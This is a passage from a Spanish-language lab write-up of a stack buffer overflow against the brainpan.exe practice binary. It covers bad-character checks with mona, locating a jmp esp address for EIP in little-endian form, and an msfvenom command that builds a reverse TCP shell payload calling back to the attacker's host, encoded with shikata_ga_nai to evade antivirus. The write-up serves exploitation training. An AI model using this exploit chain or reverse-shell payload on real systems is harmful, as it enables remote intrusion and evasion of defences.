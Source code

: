 Comparamos el bytearray que creamos anteriormente con todo lo que viene a continuacion del `ESP` (0x0022F930) y esto nos devuelve una ventana donde no se presenta ningun `bad char`
![image](https://user-images.githubusercontent.com/85322110/149222484-079c9000-6236-45d3-83f2-d53e98fc9841.png)
Es decir que solo tenemos el `\x00` como `bad char`, en caso de que existiese otro solo mostraria uno solo, por lo tanto habria que recrear el `bytearray` excluyendo ese otro badchar con la forma `-cpb \x00\x??` y repetir todo el proceso, asi consecutivamente hasta que no nos muestre ningun `bad char` al hacer un `!mona compare`

Ya con esto resolvemos el primer problema, ahora para el segundo tenemos lo siguiente:

Como no se puede apuntar directamente el `EIP` el stack `ESP` que es donde se deposita nuestro payload, debemos buscar una funcion en el mismo `brainpan.exe` que haga un salto al ESP `jmp esp`, de esta forma hariamos un salto indirecto hacia nuestro `payload`. Para encontrar un `jmp esp` dentro del programa, primero debemos buscar cual es el `Operation Code (opcode)` de `jmp esp` y lo logramos haciendo `Ctrl + F` dentro de Immunity Debugger.
![image](https://user-images.githubusercontent.com/85322110/149224942-ec8c8a51-e709-4b4b-b659-3b81ef2309bf.png)
Con eso vemos el codigo es `FFE4`, no debemos prestarle atencion a la direccion a la izquierda ya que esta varia y no funcionara si la ponemos en el `EIP`, en cambio podemos usar `mona.py` para ubicar donde se encontraria un `jmp esp` usable para esto, y lo hacemos con:
> `!mona modules`{:.language-bash .highlight} para saber que modulo debemos usar (brainpan.exe)
> ![image](https://user-images.githubusercontent.com/85322110/149225255-90a8c500-2f5a-46c6-8db1-714b2d265f0b.png)

> `!mona -m brainpan.exe -s \xFF\xE4`{:.language-bash .highlight} para ubicar el pointer deseado
> ![image](https://user-images.githubusercontent.com/85322110/149225632-154d8992-8168-4700-ac51-3a762cbc720b.png)

Vemos como el pointer `jmp esp` se ubica en la direccion `0x311712F3`, este seria finalmente nuestro `EIP` deseado, que hara una redireccion al `ESP` donde meteremos nuestro `payload` al culminar. Al momento de configurar esta direccion en el script de Python, es necesario saber que el `EIP` especificamente debe venir en formato [Little Endian](https://es.wikipedia.org/wiki/Endianness), para esto solo hay que invertir la posicion de los bytes, es decir que nuestra variable quedaria como `eip = "\xf3\x12\x17\x31"`.

Ahora solo resta crear un `payload` en formato shell que permita ejecutar acciones a bajo nivel que nos permita obtener una consola remota desde la maquina victima hacia nuestra maquina de atacante. Esto lo podremos lograr con la herramienta `msfvenom` del metasploit framework, que nos permite crear un payload rapidamente sin tener que estar inmersos en el entorno de metasploit.

Para nuestra maquina de pruebas utilizarmos el payload `windows/shell_reverse_tcp` que ejecuta una consola con conexion inversa a nosotros, para ello ejecutamos el comando
```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 -f python -v command LHOST=192.168.132.128 LPORT=443 EXITFUNC=thread -b '\x00' -e x86/shikata_ga_nai` 
```
En donde usamos el `-p`ayload requerido, marcamos la `--platform` y su `-a`rquitectura, usamos el `-f`ormato python con la `-v`ariable commmand, usamos `LHOST / LPORT` de *nuestra maquina de atacante*, marcamos los `bad chars -b`, y finalmente usamos el `-e`ncoder [shikata_ga_nai](https://security.stackexchange.com/questions/130256/what-is-shikata-ga-nai) para ofuscar nuestro comando y evitar detecciones de antimalwares.
![image](https://user-images.githubusercontent.com/85322110/149255828-21df4f67-1e41-4632-b2a9-167730d31d9e.png)

Copiamos estas lineas quitando la letra `b` en `b"\xxx\xxx..."` para quedarnos con variables en `str` y no en bytes ya que se codifican luego con `latin1`. Reemplazamos nuestra variable command y tambien agregamos `nops = "\x90"*20`, los `NOPs` son operaciones nulas en la ejecucion de comando, es decir, no hacer nada, estas no-instrucciones las ponemos antes de los comandos del payload, esto porque estos comandos van codificados con `shikata_ga_nai` y pueden tomar un tiempo en decodificarse, por lo que si no se espera y se pasa directo a la ejecucion de este, puede haber mala interpretacion del codigo.
